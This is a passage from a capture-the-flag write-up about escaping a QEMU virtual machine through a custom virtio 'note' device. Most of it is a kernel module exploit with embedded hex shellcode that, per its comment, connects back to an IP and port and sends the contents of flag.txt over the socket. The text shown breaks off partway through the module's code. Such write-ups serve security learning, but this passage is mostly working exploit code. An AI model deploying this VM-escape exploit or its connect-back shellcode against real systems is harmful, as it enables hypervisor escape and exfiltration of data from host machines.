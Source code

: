 We will use a shellcode that connect back to a given IP and port, and that will send on the socket the content of file  `flag.txt` and like this we will get our flag..

![heap1](./pics/gotflag.jpg)

------

### 5 - The Exploit

I did not have the time to clean much the exploit ,or to rewrite it more cleanly. sorry in advance 🤷

The exploit in a kernel module that needs to be compiled , and loaded in to the VM, with insmod. It will make qemu execute the shellcode.. you have to replace the shellcode by yours..(I leave that as an exercise for you...)

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/virtio.h>
#include <linux/virtio_config.h>
#include <uapi/linux/virtio_ids.h>
#include <linux/scatterlist.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("nobodyisnobody");
MODULE_DESCRIPTION("VirtIO Note Driver");

#define VIRTIO_ID_NOTE 42

#define READ 0
#define WRITE 1

// connect back shellcode, open flag.txt and send it on socket
unsigned char shellc[] = {0x48, 0x83, 0xec, 0x78, 0x6a, 0x29, 0x58, 0x99, 0x6a, 0x2, 0x5f, 0x6a, 0x1, 0x5e, 0xf, 0x5, 0x89, 0xc5, 0x97, 0xb0, 0x2a, 0x48, 0xb9, 0xfe, 0xff, 0xcf, 0x35, 0xfa, 0x0, 0x93, 0x3f, 0x48, 0xf7, 0xd9, 0x51, 0x54, 0x5e, 0xb2, 0x10, 0xf, 0x5, 0x48, 0x8d, 0x3d, 0x18, 0x0, 0x0, 0x0, 0x31, 0xf6, 0x6a, 0x2, 0x58, 0xf, 0x5, 0x89, 0xef, 0x89, 0xc6, 0x31, 0xd2, 0x6a, 0x78, 0x41, 0x5a, 0x6a, 0x28, 0x58, 0xf, 0x5, 0xeb, 0xfe, 0x66, 0x6c, 0x61, 0x67, 0x2e, 0x74, 0x78, 0x74, 0x0};

typedef struct req_t {
    unsigned int idx;
    phys_addr_t addr;
    int op;
} req_t;

struct virtio_note_info {
    struct virtio_device *vdev;
    struct virtqueue *vq;
};

static void send_request(struct virtio_note_info *note_info, req_t *request_buff)
{
	unsigned int len;
    struct scatterlist sg;
    
    // Prepare scatter-gather list and add the buffer
    sg_init_one(&sg, request_buff, sizeof(req_t));
    if (virtqueue_add_outbuf(note_info->vq, &sg, 1, request_buff, GFP_KERNEL) < 0) {
        printk(KERN_ERR "VirtIO Note: Error adding buffer\n");
        return;
    }
```